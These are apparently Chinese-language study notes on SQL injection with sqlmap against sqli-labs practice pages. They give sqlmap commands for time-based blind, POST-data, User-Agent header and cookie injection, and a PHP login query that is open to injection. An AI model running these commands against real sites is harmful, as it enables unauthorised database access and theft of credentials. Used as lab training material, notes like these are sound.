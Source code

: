 ### 布尔型时间盲注：

(time based)

```
sqlmap -u [目标url] --current-db --batch --threads 10 --technique T -v 3
```



### post方面注入：

```
$uname = $_POST['uname'];
$passwd = $_POST['password'];
```

```
查：
select username,password from users where username='$uname' and password='$passwd' limit 0,1
```

```
sqlmap:
sqlmap -u http://sqlilabs.njhack.xyz/Less-11/ --data "uname=admin*&passwd=admin&submit=Submit" --current-db --batch --threads 10 --technique E

--data 后面跟的是post的数据【用purbsuite抓包得到】
*号标哪，就是让sqlmap打哪
```





**有的网站可能会搜集用户的浏览器信息：**

### 请求头注入：

```
ip地址，user-agent（浏览器信息）,referer（来路）,cookie

sqlmap -u http://sqlilabs.njhack.xyz/Less-18/ --user-agent="Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0*" --level 4 --dbs --threads 10 --batch --technique E

# 在使用请求头注入的时候，--level必须大于3

# *号标哪，就是让sqlmap打哪


sqlmap -u http://sqlilabs.njhack.xyz/Less-20/ --cookie="uname = admin*;__cfduid=dab97c3dd6a54c5ca485d3e880af5ce271605180690" --level 4 --dbs --threads 10 --batch --technique E

# cookie=？【用purbsuite抓包得到】
# *号标哪，就是让sqlmap打哪
```






